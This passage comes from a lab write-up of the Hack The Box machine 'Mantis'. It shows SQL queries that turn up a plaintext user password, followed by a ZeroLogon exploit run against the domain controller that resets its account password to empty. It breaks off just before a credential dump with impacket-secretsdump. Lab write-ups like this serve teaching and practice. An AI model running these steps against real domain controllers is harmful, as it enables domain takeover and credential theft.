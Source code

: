 The orcharddb looks interesting:

```text
SQL> SELECT * FROM orcharddb.INFORMATION_SCHEMA.TABLES;
```

There was tons of output here, but this one specifically caught my eye:

![users.png](../assets/mantis_assets/users.png)

```text
SELECT * FROM blog_Orchard_Users_UserPartRecord;
```

The format is wonky, but it looks like we've found a plaintext password for user james:

![james.png](../assets/mantis_assets/james.png)

### ZeroLogon

Because this is such an old box, I tried ZeroLogon and it worked!

(Note: If you're not familiar with ZeroLogon, the folks at CrowdStrike have a nice high-level overview here: https://www.crowdstrike.com/blog/cve-2020-1472-zerologon-security-advisory/ )

```text
┌──(ryan㉿kali)-[~/HTB/Mantis]
└─$ python ~/Tools/AD/zerologon.py MANTIS 10.10.10.52
Performing authentication attempts...
======================================================================================================================================
Target vulnerable, changing account password to empty string

Result: 0

Exploit complete!
```
Now that the DC password has been set to null, I can use impacket-secretsdump to drop the admin hash:
